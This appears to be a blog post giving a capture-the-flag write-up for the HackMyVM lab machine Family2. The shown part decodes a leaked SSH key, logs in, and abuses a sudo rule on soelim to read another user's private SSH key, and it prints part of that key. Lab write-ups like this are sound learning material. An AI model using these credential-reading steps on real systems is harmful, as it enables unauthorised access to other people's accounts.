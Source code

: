 ```yaml
---
layout: post
title:  "HackMyVM: Confusion and Family2"
date:   2021-12-07 20:00:00 +1000
category: hacking
---
```


A double helping this evening; two Medium machines from HackMyVM. 

We have [Confusion](https://hackmyvm.eu/machines/machine.php?vm=Confusion) and [Family2](https://hackmyvm.eu/machines/machine.php?vm=Family2). 

## Family2
This will be brief, because it wasn't super hard (or anything really new). Lots of ports but almost all irrelevant. Hit up the website for http://10.10.10.14/nicegiftformybaby

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/family2]
└─# cat nicegiftformybaby | xxd -r > id_rsa
┌──(root💀kali)-[/opt/hackmyvm/family2]
└─# chmod 600 id_rsa               
                                                                                                                                                                   
┌──(root💀kali)-[/opt/hackmyvm/family2]
└─# ssh -i id_rsa baby@10.10.10.14
The authenticity of host '10.10.10.14 (10.10.10.14)' cant be established.
ED25519 key fingerprint is SHA256:6HwEGo4iDv1jBtZC87BkDOsTnZ+MUZAnS9pq7IEaNCo.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:153: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.14' (ED25519) to the list of known hosts.
Linux family2 5.10.0-9-amd64 #1 SMP Debian 5.10.70-1 (2021-09-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have mail.
Last login: Mon Nov  1 13:33:11 2021 from 192.168.0.28
baby@family2:~$ sudo -l
Matching Defaults entries for baby on family2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User baby may run the following commands on family2:
    (mum) NOPASSWD: /usr/bin/soelim
{% endhighlight %}	

We have our first user and a GTFOBins route:

{% highlight shell %}
baby@family2:/home$ LFILE=/home/mum/.ssh/id_rsa
baby@family2:/home$ sudo -l
Matching Defaults entries for baby on family2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User baby may run the following commands on family2:
    (mum) NOPASSWD: /usr/bin/soelim
baby@family2:/home$ sudo -u mum /usr/bin/soelim "$LFILE"
.lf 1 /home/mum/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
#etc